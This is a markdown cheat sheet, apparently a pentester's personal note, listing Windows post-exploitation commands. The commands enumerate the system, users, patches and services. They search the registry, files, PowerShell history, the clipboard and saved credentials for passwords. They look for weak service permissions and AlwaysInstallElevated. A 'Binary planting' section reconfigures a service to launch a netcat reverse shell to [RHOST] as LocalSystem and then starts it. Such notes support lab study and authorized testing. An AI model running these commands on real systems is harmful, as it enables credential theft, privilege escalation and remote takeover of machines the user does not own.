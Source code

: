 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Information
---
```


##### What system are we connected to?

```
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

##### Get tokens and privileges 

```
whoami /priv
Get-WmiObject win32_useraccount | Select name,sid
```

##### Get the hostname and username (if available)

```
hostname
echo %username%
```

##### Get users

```
net users
net user [username]
```

##### Get groups

```
get-LocalGroup | ft Name, SID
```

##### Networking stuff

```
ipconfig /all
```

##### Get session history 

```
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
Get-Content (Get-PSReadlineOption).HistorySavePath
```

##### Get user clipboard

```
Get-Clipboard
```

##### Find Printers

```
route print
```

##### ARP-arific

```
arp -A
```

##### Which protection settings enabled

```
Get-MpComputerStatus
```

##### Active network connections

See [[Find Open Ports]]
```
netstat -ano
```

##### Firewall fun (Win XP SP2+ only)

```
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
```

##### Scheduled tasks, see [[Scheduled Tasks]] and [[5. Standard Information/Operating Systems/Windows/Scheduled Tasks/1. Guide|Guide]]

```
schtasks /query /fo LIST /v
```

##### Running processes to started services

```
tasklist /SVC
net start
```

##### Driver madness
```
DRIVERQUERY
```

##### WMIC fun (Win 7/8 -- XP requires admin), use the `wmic_info` script

```
wmic /?
```

##### [[Saved Credentials]] 

```
cmdkey /list
```

##### WMIC: check patch level

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```
wmic service get name,displayname,pathname,startmode
```
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
```
```
wmic product get name, version, vendor
```

##### Search pathces for given patch

```
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```

##### AlwaysInstallElevated fun

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

##### AutoRun (See [[AutoRun SysInternals]])

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
```
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

##### [[Registry Passwords]] 

```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Other commands to run to hopefully get what we need

```
dir /s *pass* == *cred* == *vnc* == *.config*
```
```
findstr /si password *.xml *.ini *.txt
```
```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Service permissions

```
sc query
```
```
sc qc [service_name]
```
See [[DLL Hijacking]]
```
sc qc dllsvc (See [[DLL Hijacking]] )
```
If NT Auth, see [[RegSVC Writable]]
```
sc qc regsvc
```
If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]]
```
sc qc filepermsvc
```

##### Accesschk stuff

```
accesschk.exe /accepteula (always do this first!!!!!)
```
```
accesschk.exe /accepteula -uwcqv user daclsvc
```
```
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
```
```
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
```
```
accesschk.exe -ucqv [service_name]
```
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

##### Find all weak folder permissions per drive.

```
accesschk.exe -uwdqs Users c:\
```
```
accesschk.exe -uwdqs "Authenticated Users" c:\
```

##### Find all weak file permissions per drive.

```
accesschk.exe -uwqs Users c:\*.*
```
```
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

##### Binary planting

```
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
```
```
sc config [service_name] obj= ".\LocalSystem" password= ""
```
```
sc qc [service_name] (to verify!)
```
```
net start [service_name]
```

##### Driver querying

```
driverquery /v /fo csv
```
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```
